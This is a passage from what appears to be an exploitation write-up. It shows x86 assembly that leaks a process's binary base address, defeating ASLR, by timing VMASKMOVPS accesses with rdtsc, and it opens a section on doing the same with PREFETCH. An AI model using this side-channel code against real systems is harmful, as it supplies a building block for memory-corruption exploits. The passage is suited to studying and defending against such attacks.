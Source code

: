 Our search will begin at the address `0x550000000000`, since binaries are loaded above this address. Each step will be of `0x1000` bytes since memory mappings are aligned by that amount.
```asm
;mean time to access valid memory
xor r11,r11
mov rdi, 1024
.time:
    rdtsc
    mov rbp,rax
    lfence
    vmaskmovps ymm0, ymm0, [rip]
    lfence
    rdtsc
    sub rax,rbp
    add r11, rax
    dec rdi
    test rdi, rdi
jnz .time
shr r11, 10

;threshold = mean*1.2
imul r11,r11, 12
sar r11, 3

;search starting point
mov rdi, 0x550000000000
mov rsi, 0x1000
;test each memory address till the binary base is found
.find:
    add rdi, rsi
    vmaskmovps ymm0, ymm0, [rdi]
    lfence
    
    rdtsc
    mov ebp,eax
    vmaskmovps ymm0, ymm0, [rdi]
    lfence
    rdtsc
    
    sub eax,ebp
    cmp rax, r11
    jge .find
;binary base in rdi! 
```

# Leaking the Binary Base with PREFETCH
The PREFETCH family of instructions behaves a bit differently compared to VMASKMOV. Based on my measurements, accessing an invalid memory address takes between 1.5 to 2 times as long as accessing a valid one using `lfence`. Interestingly, for certain invalid memory addresses, it could take even less time.

